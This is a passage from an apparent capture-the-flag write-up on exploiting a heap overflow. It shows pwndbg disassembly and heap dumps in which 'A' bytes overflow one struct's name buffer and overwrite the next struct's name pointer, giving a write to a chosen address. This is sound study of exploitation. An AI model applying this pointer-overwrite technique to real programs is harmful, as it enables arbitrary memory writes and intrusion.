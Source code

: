 ```
   0x080485cc <+171>:   mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:   mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:   mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:   mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    eax,0x0
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret

End of assembler dump.
pwndbg> b *0x0804857f
pwndbg> b *0x0804859d
Breakpoint 1 at 0x0804857f 
Breakpoint 2 at 0x0804859d
```

We hit our first breakpoint. Using the vis command, we can observe the heap. The structure from the source code gets allocated, with each struct member receiving 8 bytes. We see the addresses of v1.name and v2.name, and notice that v1.number is set to 1, while v2.number is set to 2.

```
pwndbg> c
Continuing.

Breakpoint 1, 0x0804857f in main ()
pwndbg> vis
0x804a198       0x00000000      0x00000011      ........
0x804a1a0       0x00000001      0x0804a1b0      ........
0x804a1a8       0x00000000      0x00000011      ........
0x804a1b0       0x00000000      0x00000000      ........
0x804a1b8       0x00000000      0x00000011      ........
0x804a1c0       0x00000002      0x0804a1d0      ........
0x804a1c8       0x00000000      0x00000011      ........
0x804a1d0       0x00000000      0x00000000      ........
0x804a1d8       0x00000000      0x00021e29      ....)...         <-- Top chunk

```
After the overflow occurs, we know that v2.name will be replaced with the address we provide in arg1. Since arg2 places its value at the address of v2.name, we confirm in the heap using vi that the memory has been modified as expected
```
pwndbg> c
Continuing.

Breakpoint 2, 0x0804859d in main ()
pwndbg> vis
0x804a198       0x00000000      0x00000011      ........  
0x804a1a0       0x00000001      0x0804a1b0      ........    
0x804a1a8       0x00000000      0x00000011      ........  
0x804a1b0       0x41414141      0x41414141      AAAAAAAA  
0x804a1b8       0x41414141      0x41414141      AAAAAAAA  
0x804a1c0       0x41414141      0x08049928      AAAA(...   
0x804a1c8       0x00000000      0x00000011      ........
0x804a1d0       0x00000000      0x00000000      ........
0x804a1d8       0x00000000      0x00021e29      ....)...         <-- Top chunk  
```
